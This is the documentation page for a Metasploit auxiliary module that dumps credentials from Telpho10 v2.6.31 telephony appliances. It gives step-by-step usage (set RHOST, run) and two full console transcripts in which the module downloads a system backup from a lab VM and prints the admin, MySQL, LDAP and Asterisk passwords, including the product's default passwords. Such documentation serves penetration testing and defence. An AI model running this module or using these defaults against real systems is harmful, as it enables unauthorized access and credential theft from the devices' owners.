 ## Vulnerable Application

  Telpho10 v2.6.31 (32-bit Linux ISO image download [here](http://www.telpho.de/downloads/telpho10/telpho10-v2.6.31-SATA.iso)).

  Supporting documentation for this product can be found [here](http://www.telpho.de/downloads.php).

## Verification Steps

  The following steps will allow you to install and dump the credentials from a Telpho10 instance:

  1. Download the [Telpho10 ISO image](http://www.telpho.de/downloads/telpho10/telpho10-v2.6.31-SATA.iso) and install in a VM (or on a system)
    - note that the ISO will default to a German keyboard layout
  1. configure the Telpho10's IP address
    - edit /etc/networks/interfaces accordingly
  1. Start msfconsole
  1. Do: ```use auxiliary/admin/http/telpho10_credential_dump```
  1. Do: ```set RHOST <IP address of your Telpho10 instance> ```
  1. Do: ```run```
  1. You should see a list of the retrieved Telpho10 credentials

## Scenarios

  Example output when using this against a Telpho10 v2.6.31 VM:

  ```
$ ./msfconsole
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v4.12.36-dev-16fc6c1                 ]
+ -- --=[ 1596 exploits - 908 auxiliary - 273 post        ]
+ -- --=[ 458 payloads - 39 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use auxiliary/admin/http/telpho10_credential_dump
msf auxiliary(telpho10_credential_dump) > set RHOST 10.0.2.35
RHOST => 10.0.2.35
msf auxiliary(telpho10_credential_dump) > run

[*] Generating backup
[*] Downloading backup
[+] File saved in: /home/pbarry/.msf4/loot/20161028155202_default_10.0.2.35_telpho10.backup_185682.tar
[*] Dumping credentials

[*] Login (/telpho/login.php)
[*] -------------------------
[+] Username: admin
[+] Password: telpho

[*] MySQL (/phpmyadmin)
[*] -------------------
[+] Username: root
[+] Password: telpho

[*] LDAP (/phpldapadmin)
[*] --------------------
[+] Username: cn=admin,dc=localdomain
[+] Password: telpho

[*] Asterisk MI (port 5038)
[*] -----------------------
[+] Username: telpho
[+] Password: telpho

[*] Mail configuration
[*] ------------------
[+] Mailserver: 
[+] Username:   
[+] Password:   
[+] Mail from:  

[*] Online Backup
[*] -------------
[+] ID:       
[+] Password: 

[*] Auxiliary module execution completed
msf auxiliary(telpho10_credential_dump) > 
```

I navigated my browser to the admin page of the UI and changed some of the password values, then ran the module again to verify I see the updated values:

```
msf auxiliary(telpho10_credential_dump) > run

[*] Generating backup
[*] Downloading backup
[+] File saved in: /home/pbarry/.msf4/loot/20161028161929_default_10.0.2.35_telpho10.backup_044262.tar
[*] Dumping credentials

[*] Login (/telpho/login.php)
[*] -------------------------
[+] Username: admin
[+] Password: s3cr3t

[*] MySQL (/phpmyadmin)
[*] -------------------
[+] Username: root
[+] Password: telpho

[*] LDAP (/phpldapadmin)
[*] --------------------
[+] Username: cn=admin,dc=localdomain
[+] Password: ldaps3cr3t

[*] Asterisk MI (port 5038)
[*] -----------------------
[+] Username: telpho
[+] Password: asterisks3cr3t

[*] Mail configuration
[*] ------------------
[+] Mailserver: 
[+] Username:   
[+] Password:   
[+] Mail from:  

[*] Online Backup
[*] -------------
[+] ID:       
[+] Password: 

[*] Auxiliary module execution completed 
  ```
